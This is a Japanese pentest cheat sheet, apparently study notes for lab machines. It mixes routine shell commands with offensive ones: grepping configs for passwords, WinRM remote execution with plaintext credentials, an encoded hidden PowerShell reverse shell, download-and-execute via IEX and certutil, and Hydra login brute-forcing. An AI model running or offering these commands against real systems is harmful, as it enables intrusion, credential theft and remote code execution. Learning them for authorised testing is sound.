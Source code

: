 ## ## tree

| コマンド例           | 説明                                       |
| --------------- | ---------------------------------------- |
| `tree -L 2`     | 深さ2まで表示（サブディレクトリが多い時に便利）                 |
| `tree -a`       | **隠しファイル（.dotfiles）も含めて表示**              |
| `tree -f`       | **フルパスで表示**（後でコピペしやすい）                   |
| `tree -pug`     | **パーミッション、所有者、グループ**付きで表示（権限確認に便利）       |
| `tree -h`       | **ファイルサイズを人間に読みやすく表示**（KB/MB/GB）         |
| `tree -I '*.log | *.tmp'`                                  |
| `tree -s`       | **サイズ順に並べる**（-Dと併用すると日時も表示可能）            |
| `tree -C`       | **色付き出力**（デフォで有効な場合も）                    |
| `tree -Q`       | **ファイル名をダブルクォートで囲む**（スペース入りファイル名がわかりやすい） |

### ### 情報収集向き
```sh 
tree -a -f -pug -h -L 3
```

---

## ## 圧縮コマンド


## ## 解凍コマンド
### ### 7z
```sh
7z x file.7z
```

### ### tar.gz
```sh
tar -zxvf filename.tar.gz
```

### ### zip
- 圧縮
```
zip -r FILENAME.zip FILE_DIR
```

---
## ## 複数のファイルから特定の文字列を見つける方法
### ### Find
```sh
find /mnt/remote -type f -name '*.config' -exec grep -iH 'password' {} +
```
- オプションの説明：
	-  `find` コマンド部分
		- `/mnt/remote` ← 対象ディレクトリ
		- `-type f` ← 通常ファイルのみ検索（ディレクトリは無視）
		- `-name '*.config'` ← `.config` で終わるファイル名のみ対象
		- `-exec ... {} +` ← 見つけたファイルを `grep` に**まとめて渡す**
    - `grep` コマンド部分
		- `-i` ← **大文字小文字を無視**して「password」を検索（例：`PASSWORD`, `PassWord` もOK）
	    - `-H` ← ヒットした行の前に**ファイル名を表示**
	
---
### ### バイナリファイルを読む方法
```sh
strings hoge.sdf | less
```

---
# # SQLコマンド
# # MySQL コマンド
## ## ログイン
```sh
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

---
# # FFUF
## ## Recuest.txtを作成し、Fuzzingを行う方法
```sh
ffuf -request ./req.txt -w wordlist.txt
```
- この際のリクエストファイルの中に列挙したい箇所をFUZZとして置く必要がある。
```sh
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
Content-Length: 25
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.11.113:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.113:8080/forgot/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

email=FUZZ
```

## ## Proxyを指定する方法
- `-x`をつければいい
```sh
ffuf -request ./req.txt -w /opt/wordlists/ssti.fuzz -v -x http://127.0.0.1:8080
```

---
# # WinRM
## ## Windowsからコマンドの実施
- RCE
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "cmd /c hostname & whoami"
```

- ReverseShell
```powershell
C:\Users\jeff>winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

---
# # ファイル転送
## ## HTTP/HTTPS
- リッスン側
```sh
sudo python3 -m http.server 80

# -dで任意のディレクトリを指定できる。
python3 -m http.server -d /opt/somedir
```

- ダウンロード側
Linuxの場合:
```sh
wget http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -O <お好みのファイル名>

curl http://<HTTPサーバのIP>:<ポート番号>/<ファイル名> -o <お好みのファイル名>
```
Windowsの場合:
```
C:\> certutil -URLcache -f http://<HTTPサーバのIP>/file file

PS C:\> powershell -c "Invoke-Webrequest -OutFile <お好みのファイル名> -Uri http://<HTTPサーバのIP>/<ファイル名>"

PS C:\> IEX(New-Object Net.WebClient).downloadString('http://<HTTPサーバのIP>:<ポート番号>/<ファイル名>')
```


# # 参考資料
- https://qiita.com/Hashibirokou/items/5fbb2e94ca42434e4575

---
# # Hydra
## ## http/https
```sh
# POST Method
## ↓文字一致で判断(部分一致でもOK)
hydra -L /opt/wordlists/names.txt -p baconandcheese http-post-form "//umbraco/backoffice/UmbracoApi/Authentication/PostLogin:"username":"^USER^","password":"^PASS^":F=failed"

## ステータスベース(誤検知が多いので注意)
hydra -l admin -P passwords.txt 10.10.10.10 http-post-form "/login:username=^USER^&password=^PASS^:S=302"
```
---
